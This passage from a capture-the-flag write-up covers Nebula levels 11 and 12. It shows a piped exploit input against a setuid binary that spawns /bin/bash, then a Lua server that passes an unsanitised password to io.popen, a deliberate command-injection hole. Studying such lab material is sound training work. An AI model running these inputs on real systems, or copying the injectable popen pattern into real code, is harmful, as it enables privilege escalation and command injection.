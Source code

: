 	    if (setresuid(euid, euid, euid) == -1) {
			printf("Couldn't set euid and ruid\n");
	    }
	    printf("* getuid()=%d, geteuid()=%d\n", getuid(), geteuid());
	    system("/bin/bash");

	    return 0;
	}


	:::bash
	level11@nebula:/home/flag11$ python -c 's = "Content-Length: 1\nr"; print(s);' | ./flag11 
	Couldn't set euid and ruid
	* getuid()=1012, geteuid()=1012


Still doesn't work. This is a bug. The setuid C program should probably not call `system()`, because as 
`man 3 system` states:

> system() will not, in fact, work properly from programs with
> set-user-ID or set-group-ID privileges on systems on which /bin/sh is bash version 2, since bash 2 drops privileges on startup.

See here a proof that there is a bug: <http://73696e65.github.io/blog/2015/06/18/exploit-exercises-nebula-11-15/>

There's the second way to exploit this vulnerability, when the input is longer than 1024 bytes. For this you need to pre-encode
the payload with the reverse of the `process()` algorithm. I didn't do this, because it works very similar to the previous approach.


## Level 12 - Command Injections in double quoted strings

This level is about a simple command injection vulnearability in Lua. The code of the vulnearble program is below:

	:::lua
	local socket = require("socket")
	local server = assert(socket.bind("127.0.0.1", 50001))

	function hash(password) 
		prog = io.popen("echo "..password.." | sha1sum", "r")
		data = prog:read("*all")
		prog:close()

		data = string.sub(data, 1, 40)

		return data
	end


	while 1 do
		local client = server:accept()
		client:send("Password: ")
		client:settimeout(60)
		local line, err = client:receive()
		if not err then
			print("trying " .. line) -- log from where ;\
			local h = hash(line)
